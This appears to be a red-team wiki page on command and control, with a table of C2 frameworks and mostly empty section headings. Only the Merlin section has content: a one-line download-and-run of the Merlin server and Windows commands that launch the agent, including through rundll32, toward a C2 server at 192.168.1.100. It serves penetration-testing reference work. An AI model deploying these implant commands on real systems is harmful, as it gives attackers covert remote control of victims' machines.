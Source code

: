 # Command and Control
[**Back** to Methodologies](/Methodology#methodologies)

*Command and Control consists of techniques that adversaries may use to communicate with systems under their control within a victim network. Adversaries commonly attempt to mimic normal, expected traffic to avoid detection. There are many ways an adversary can establish command and control with various levels of stealth depending on the victim’s network structure and defenses.*
                                                -[Mitre ATT&CK](https://attack.mitre.org/tactics/TA0011/)

+ [Setting up External Servers](#setting-up-external-servers)
  + [Digital Ocean](#digital-ocean)
  + [AWS Lightsail](#aws-lightsail)
  + [Linode](#linode)
+ [C2 Frameworks](#c2-frameworks)
  + [Metasploit](#metasploit)
  + [Cobalt Strike](#cobalt-strike)
  + [PowerShell Empire](#powershell-empire)
  + [dnscat2](#dnscat2)
  + [Pupy Shell](#pupy-shell)
  + [PoshC2](#poshc2)
  + [Merlin](#merlin)
  + [Nishang](#nishang)

# Setting up External Servers



## Digital Ocean

## AWS Lightsail

## Linode

# C2 Frameworks

| Name | Written in | Clame to fame |
| :-: | :-: | --- |
| [Metasploit](#metasploit) | Ruby | Gold Standard, active community support |
| [Cobalt Strike](#cobalt-strike) | Aggressor | Post-exploitation, also Gold Standard (NOT FREE!) |
| [Powershell Empire](#powershell-empire) | PowerShell(Win)/Python(Linux) | Post-exploitation great for Window/AD envs |
| [dnscat2](#dnscat2) | C | Encrypted tunnels over DNS (usually a way "out" of almost every network) |
| [Pupy Shell](#pupy-shell) | Python | Run python on all agents without it actually being on your host |
| [PoshC2](#poshc2) | PowerShell | Proxy aware C2 framework |
| [Merlin](#merlin) | GO | HTTP/2 multiplexed, bi-directional connections that stay open and are in binary. Easy to parse and not human readable without an interpreter |
| [Nishang](#nishang) | PowerShell | Amazing collection of PowerShell scripts that can be used for C2 and all other phases |

# Metasploit

# Cobalt Strike

# Powershell Empire

# dnscat2

# Pupy Shell

# PoshC2

# Merlin

![image](https://user-images.githubusercontent.com/83407557/173481864-e97d726a-d779-4926-8f0f-08244bded3de.png)

[Online Documentation](https://merlin-c2.readthedocs.io/en/latest/index.html)

[Github page](https://github.com/Ne0nd0g/merlin)

## Merlin Server

The following single line of code can be used to download, extract, and run Merlin Server on an Ubuntu Server:
```bash
sudo bash;apt update;apt install p7zip-full -y;cd /opt;wget https://github.com/Ne0nd0g/merlin/releases/latest/download/merlinServer-Linux-x64.7z;7z x -pmerlin -omerlin merlinServer-Linux-x64.7z;cd merlin;./merlinServer-Linux-x64
```
## Merlin Agents

Pre-compiled Merlin Agent binary files are distributed with the server download in the data/bin/ directory of Merlin

Can also use GO to retrieve and build an Agent
```bash
go get github.com/Ne0nd0g/merlin-agent
```

### Upload and Execute

Unless recompiling binary, the hardcoded -url flag needs to be set to your C2 server url when executing. For these examples the C2 server ip is 192.168.1.100.



### Windows Local Execution

#### CMD.exe
```cmd
C:\Users\Bob\Downloads>merlinAgent.exe -url https://192.168.1.100:443/
```
#### rundll32.exe
```cmd
C:\Users\Bob\Downloads>C:\WINDOWS\System32\rundll32.exe merlin.dll,Run https://192.168.1.100:443/
```


### Windows Remote Execution


# Nishang
